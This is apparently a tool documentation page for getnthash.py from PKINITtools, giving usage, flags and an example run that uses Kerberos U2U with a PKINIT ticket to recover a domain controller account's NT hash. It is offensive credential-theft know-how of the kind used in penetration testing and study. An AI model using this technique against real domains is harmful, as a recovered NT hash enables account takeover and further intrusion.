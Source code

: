 ```yaml
---
title : "getnthash.py"
# pre : ' '
description : "Use Kerberos U2U to submit a TGS request for yourself."
date : 2023-12-03T06:11:46+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## getnthash.py - Use Kerberos U2U to submit a TGS request for yourself

Use Kerberos U2U to submit a TGS request for yourself. This will include with the PAC which in turn contains the NT hash that you can decrypt with the AS-REP key that was used for your specific TGT. It's magic really. This tool requires a TGT resulting from PKINIT to be in your `KRB5CCNAME` env variable.

## Installation

Install [PKINITtools]({{< ref "pkinittools" >}}).

## Usage

```plain
getnthash.py [-h] -key KEY [-dc-ip ip address] [-debug] identity
```

## Flags

```plain
positional arguments:
  identity           domain/username

options:
  -h, --help         show this help message and exit
  -key KEY           AS REP key from gettgtpkinit.py
  -dc-ip ip address  IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter
  -debug             Turn DEBUG output ON
```

## Examples

```plain
(PKINITtools) user@localhost:~/PKINITtools$ export KRB5CCNAME=s2019dc.ccache
(PKINITtools) user@localhost:~/PKINITtools$ python getnthash.py testsegment.local/s2019dc\$ -key 5769dff44ebeaa5a37b4e9f7005f63063ffd7c198b747ae72021901e8063b0e3
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
fa6b130d73311d1be5495f589f9f4571
```
